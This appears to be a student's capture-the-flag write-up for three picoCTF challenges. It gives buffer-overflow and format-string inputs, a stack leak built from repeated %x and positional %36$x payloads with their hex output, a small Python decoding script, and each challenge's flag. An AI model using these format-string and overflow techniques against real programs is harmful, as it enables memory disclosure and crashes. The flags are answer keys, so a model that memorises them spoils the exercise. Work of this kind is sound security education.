 ## buffer overflow 0

Flag: ```picoCTF{ov3rfl0ws_ar3nt_that_bad_c5ca6248}```
Hints used: NONE

in this chal, i gave a long string as an input ```11111111111111111111111111``` which gave me the flag. 
giving an input of ```111``` exited the program. however, when i inputted ```aaaaaaaaaaaaaaaaaaaaaaaaaaaa``` there 
was no output, and i had to press ```enter``` to exit the code.

after looking at the source code, there was a vulnerability for char greater than 16, however entering 17 chars didnt give me the flag, it took 20 chars to get the flag.
tried to understand the code but since i dont know c properly(skill issue), i cant really decode the script.

## format string 0

Flag: ```picoCTF{7h3_cu570m3r_15_n3v3r_SEGFAULT_ef312157}```
Hints used: NONE

the obvious choices were the ones with ```%``` in them, since they're used to format strings/output in C.
however after looking at the source_code, things made more sense.
in the first problem, input needs to have integers more than the buffer size set(32 bits)
```count > 2 * BUFSIZE```, since 1 int == 32 bits and ```Gr%114d_Cheese``` has 3 integers, that passes the value.
in the second problem, it is just looking for an integer formatting style, ie ```%s```, so ```Cla%sic_Che%s%steak``` gives me the flag.

qn for the mentor: why did the program return ```ClaCla%sic_Che%s%steakic_Che(null)``` in the end?

attaching the image for reference.

![alt text](/assets/format_tp2.png)

## flag-leak

Flag: ```picoCTF{L34k1ng_Fl4g_0ff_St4ck_95f60617}```

Hints used: Youtube

This was by far, the hardest challenge i came across in all of the mandatory challenges.

In the code(vuln.c), line 32 => ```printf(story);```, there is a string formatting vulnerablilty, which means if i give an % identifier input, i can see everything on the stack.

So i made a python file wherein i made little tweaks, to give a proper input in the .c code.

I gave an input of 32 ```%x.``` and got an output of ```ffebc810.ffebc830.8049346.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.252e78.6f636970.7b465443.6b34334c.5f676e31.67346c46.6666305f.3474535f.```



then i split the output using python(```ffebc810 ffebc830 8049346 252e7825 78252e78 2e78252e 252e7825 78252e78 2e78252e 252e7825 78252e78 2e78252e 252e7825 78252e78 2e78252e 252e7825 78252e78 2e78252e 252e7825 78252e78 2e78252e 252e7825 78252e78 2e78252e 252e7825 78252e78 2e78252e 252e7825 78252e78 2e78252e 252e7825 78252e78 2e78252e 252e7825 252e78 6f636970 7b465443 6b34334c 5f676e31 67346c46 6666305f 3474535f ```)
i converted ```6f636970 7b465443 6b34334c 5f676e31 67346c46 6666305f 3474535f``` because that is where the hex code changes.

output=>
![output](/assets/flag_leak1.png)

since this is just half the flag, i counted the number from where the hex coded changed, which was 36.

therefore i wrote another script for giving the input as ```%36$x.%37$x......``` and so on.

from there, i got an output ```%36$x.%37$x.%38$x.%39$x.%40$x.%41$x.%42$x.%43$x.%44$x.%45$x.617}5f60ck_9_St4_0ffFl4g1ng_L34kCTF{pico``` which when reversed, although took some manual work, gave me the flag.

here is the python code i wrote to automate some of the tasks.
![code](/TP_2/chal_assets/trial.py)

```
lst = "ffebc810.ffebc830.8049346.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.252e78.6f636970.7b465443.6b34334c.5f676e31.67346c46.6666305f.3474535f.".split('.')

s = ' '.join(lst)

print(s)

for i in range(36,46):
    x = '%'+str(i)+'$x'
    print(x, end='.') 


flag = 'ocip{FTCk43L_gn1g4lFff0_4tS_9_kc06f5}716'[::-1]

print(flag)

'5f60ck_9_St4_0ffFl4g1ng_L34kCTF{pico'
'picoCTF{L34k1ng_Fl4g_0ff_St4ck_95f60617}'
```





